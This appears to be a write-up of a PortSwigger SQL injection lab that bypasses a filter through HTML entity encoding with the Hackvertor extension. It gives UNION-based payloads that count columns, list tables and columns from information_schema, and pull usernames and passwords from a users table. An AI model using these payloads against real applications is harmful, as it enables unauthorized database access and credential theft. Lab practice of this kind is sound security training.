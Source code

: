#### source: <https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding>

* To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

Solution:

> Hint recommend using the Hackvertor extension to do this lab.

First, before using *UNION*, we need to know how much of the column is returned, so we have the payload as `**<@html_entities>UNION SELECT NULL FROM information_schema.tables--<@/html_entities>**`.

> <@html_entities> is encoding of Hackvertor extension using HTML encode.

Now, after knowing that one column is returned, we need to know about the table and its columns. So, we have payload as `**<@html_entities>UNION SELECT TABLE_NAME FROM information_schema.tables--<@/html_entities>**` and `**<@html_entities>UNION SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME='users'--<@/html_entities>**`

> From my experience in the above labs, I can easily find table names that include *username* and *password*

After knowing about its columns, we will extract data from them. Because only one column is returned, we have the payload as `**<@html_entities>UNION SELECT username||'~'||password FROM users--<@/html_entities>**`.
